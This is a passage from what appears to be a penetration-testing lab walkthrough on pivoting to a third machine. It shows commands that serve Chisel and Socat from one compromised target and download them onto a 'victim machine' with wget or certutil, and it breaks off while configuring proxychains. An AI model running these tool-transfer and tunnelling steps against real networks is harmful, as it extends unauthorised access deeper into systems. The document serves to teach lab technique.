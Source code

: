 <figure><img src="../../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

All right! We stop listening on the Kali and to reach the third machine, we've to do the same procedure.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

We need Chisel and Socat on target 2, then we transfer it as always, but using target 1 machine and not Kali.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong><strong>python3 -m http.server 80 #target 1, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 2
</strong>proxychains ssh ubuntu@&#x3C;t2_nat2> #access to target 2 from kali
wget http://&#x3C;t1_nat2>/* #download chisel and socat (if victim machine has Linux OS)
certutil -urlcache -split -f http://&#x3C;t1_nat2>/* #download chisel and socat (if victim machine has Windows OS)
chmod +x chisel #give execution permission
chmod +x socat #give execution permission
</code></pre>

Then, we need to open a new tunnel connection on Kali machine, therefore we execute a 2nd session of target 1 on a different port of socks5.

#### Setting proxychains

With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
